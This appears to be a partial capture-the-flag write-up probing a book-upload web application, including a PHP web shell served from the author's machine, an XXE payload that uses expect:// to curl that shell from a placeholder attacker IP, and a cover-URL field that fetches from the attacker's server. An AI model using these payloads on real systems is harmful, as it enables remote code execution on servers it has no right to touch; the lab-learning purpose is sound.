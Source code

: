 Since its nginx we unfortunately don't know the backend language.

So I think the first thing I do now is try and upload a php file.

`<?php $var = gethostname(); echo $var;?>`

So looking at the source of the upload directory I see:
``` javascript
        <script>
          document.getElementById('button-cover').addEventListener('click', function(e) {
            e.preventDefault();
            var formData = new FormData(document.getElementById('form-cover'));
            var xhr = new XMLHttpRequest();
            xhr.open('POST', '/upload-cover');
            xhr.onload = function() {
              if (xhr.status === 200) {
                var imgUrl = xhr.responseText;
                console.log(imgUrl);
                document.getElementById('bookcover').src = imgUrl;

                document.getElementById('bookfile').value = '';
                document.getElementById('bookurl').value = '';
              }
            };
            xhr.send(formData);
          });
        </script>
```

I think the `console.log(imgUrl);` is interesting. Because if it isn't filtered could it just run the command?

I also notice this in the request header:
```
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```

So I might just need to use XML.

What if I host with:
```
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
&company;
```

That didn't work.

But if you notice it allows us to provide a url for our book cover... so If I try to do:
`http://10.10.14.23:80/shell.php` it actually reaches out to the server...
